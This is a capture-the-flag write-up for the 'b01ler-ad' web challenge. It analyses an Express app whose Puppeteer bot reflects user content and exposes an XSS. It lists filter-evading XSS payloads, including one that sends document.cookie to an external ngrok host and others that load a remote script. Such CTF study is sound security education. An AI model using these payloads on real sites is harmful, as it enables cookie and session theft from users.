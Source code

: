 ## b01ler-ad

## Description

Ads Ads Ads! Cheap too! You want an Ad on our site? Just let us know!

http://b01ler-ads.hammer.b01le.rs

## Solution

The only thing we have is `index.js` and `package.json`.
The packages used are: 

```json
    "cookie-parser": "^1.4.6",
    "dotenv": "^16.4.5",
    "ejs": "^3.1.9",
    "express": "^4.19.2",
    "express-rate-limit": "^7.2.0",
    "puppeteer": "^22.6.2"
```

Lets breakdown the code from index.js:

Endpoint that shows the main website of ads:
```js
app.get('/', (req, res) => {
  res.render('index.html');
})
```

Our goal, we need to get the flag cookie in order to access this endpoint:
```js
app.get('/admin/view', (req, res) => {
  if (req.cookies.flag === CONFIG.APPFLAG) {
    res.send(req.query.content);
  }
  else {
    res.send('You are not Walter White!');
  }
})
```

Basically there is a bot(puppeteer) that is used to verify the submission that we place in the main page.
It uses chrome and it only takes the content parameter from the request body and searches the `/admin/view` endpoint, then redirects to the main page.
It removes the following characters `, " and '.

```js
app.post('/review', limiter,  async (req, res) => {
  const initBrowser = puppeteer.launch({
      executablePath: "/opt/homebrew/bin/chromium",
      headless: true,
      args: [
          '--disable-dev-shm-usage',
          '--no-sandbox',
          '--disable-setuid-sandbox',
          '--disable-gpu',
          '--no-gpu',
          '--disable-default-apps',
          '--disable-translate',
          '--disable-device-discovery-notifications',
          '--disable-software-rasterizer',
          '--disable-xss-auditor'
      ],
      ignoreHTTPSErrors: true
  });
  const browser = await initBrowser;
  const context = await browser.createBrowserContext()
  const content = req.body.content.replace("'", '').replace('"', '').replace("`", '');
  const urlToVisit = CONFIG.APPURL + '/admin/view/?content=' + content;
  try {
      const page = await context.newPage();
      await page.setCookie({
          name: "flag",
          httpOnly: false,
          value: CONFIG.APPFLAG,
          url: CONFIG.APPURL
      })
      await page.goto(urlToVisit, {
          waitUntil: 'networkidle2'
      });
      await sleep(1000);
      // Close
      await context.close()
      res.redirect('/')
  } catch (e) {
      console.error(e);
      await context.close();
      res.redirect('/')
  }
})
```

So we have a clear XSS vulnerability in the admin/view endpoint:
```js
if (req.cookies.flag === CONFIG.APPFLAG) {
    res.send(req.query.content); <- XSS
  }
```
It receives a content parameter and displays it, since we pass the content to the bot and the bot passes to the endpoint we just need to bypass the filters and create a XSS that grabs a script from our domain. Bellow are some scripts that i have tried:

`content=<SCRIPT SRC=https://mutually-cheerful-meerkat.ngrok-free.app/xss.js?< B >`

`content=<SCRIPT SRC=https://mutually-cheerful-meerkat.ngrok-free.app/index.js></SCRIPT>`

`content=\<a src=https://mutually-cheerful-meerkat.ngrok-free.app/index.js\>xxs link\</a\>`

`content=\<script type=text/javascript\>document.location=https://mutually-cheerful-meerkat.ngrok-free.app/?c=+document.cookie;\</script\>`

`<IMG SRC=String.fromCharCode(104,116,116,112,115,58,47,47,109,117,116,117,97,108,108,121,45,99,104,101,101,114,102,117,108,45,109,101,101,114,107,97,116,46,110,103,114,111,107,45,102,114,101,101,46,97,112,112,47,105,110,100,101,120,46,106,115)>`

`<IMG SRC=javascript:String.fromCharCode(104,116,116,112,115,58,47,47,109,117,116,117,97,108,108,121,45,99,104,101,101,114,102,117,108,45,109,101,101,114,107,97,116,46,110,103,114,111,107,45,102,114,101,101,46,97,112,112,47,105,110,100,101,120,46,106,115)`


104 116 116 112 115 58 47 47 109 117 116 117 97 108 108 121 45 99 104 101 101 114 102 117 108 45 109 101 101 114 107 97 116 46 110 103 114 111 107 45 102 114 101 101 46 97 112 112 47 105 110 100 101 120 46 106 115 -> https://mutually-cheerful-meerkat.ngrok-free.app/index.js

In XSS filter evasion we have the following possibilities:

<https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#fromcharcode>
<https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html#malformed-a-tags>
